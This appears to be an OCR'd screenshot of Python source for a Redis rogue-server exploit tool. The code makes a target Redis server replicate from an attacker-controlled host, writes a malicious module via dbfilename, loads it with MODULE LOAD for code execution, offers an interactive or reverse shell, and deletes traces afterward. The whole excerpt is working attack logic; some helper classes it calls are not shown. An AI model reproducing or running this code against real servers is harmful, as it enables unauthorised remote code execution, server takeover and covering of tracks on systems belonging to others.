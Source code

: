 ```python

def cleanup(remote, expfile):
    # clean up
    print("[*] Clean up..")
    remote.do("CONFIG SET dbfilename dump.rdb")
    remote.shell_cmd("rm ./{}".format(expfile))
    remote.do("MODULE UNLOAD system")
    remote.close()

def printback(remote):
    back = remote._sock.getpeername()
    print("\033[92m[+]\033[0m Accepted connection from {}:{}".format(back[0], back[1]))


def runserver(rhost, rport, lhost, lport):
    # get expolit filename
    expfile = os.path.basename(filename)
    #start exploit
    try:
        remote = Remote(rhost, rport)
        if auth:
            check = remote.do("AUTH {}".format(auth))
            if "invalid password" in check:
                print("\033[1;31;m[-]\033[0m Wrong password !")
                return
        else:
            info = remote.do("INFO")
            if "NOAUTH" in info:
                print("\033[1;31;m[-]\033[0m Need password.")
                return


        print("[*] Sending SLAVEOF command to server")
        remote.do("SLAVEOF {} {}".format(lhost, lport))
        printback(remote)
        print("[*] Setting filename")
        remote.do("CONFIG SET dbfilename {}".format(expfile))
        printback(remote)
        sleep(2)
        print("[*] Start listening on {}:{}".format(lhost, lport))
        rogue = RogueServer(lhost, lport, remote, expfile)
        print("[*] Tring to run payload")
        rogue.exp()
        sleep(2)
        remote.do("MODULE LOAD ./{}".format(expfile))
        remote.do("SLAVEOF NO ONE")
        print("[*] Closing rogue server...\n")
        rogue.close()
        # Operations here
        choice = input("\033[92m[+]\033[0m What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: ")
        if choice.startswith("i"):
            interact(remote)
        elif choice.startswith("r"):
            reverse(remote)
        elif choice.startswith("e"):
            pass

        cleanup(remote, expfile)

        remote.close()
    except Exception as e:
        print("\033[1;31;m[-]\033[0m Error found : {} \n[*] Exit..".format(e))
```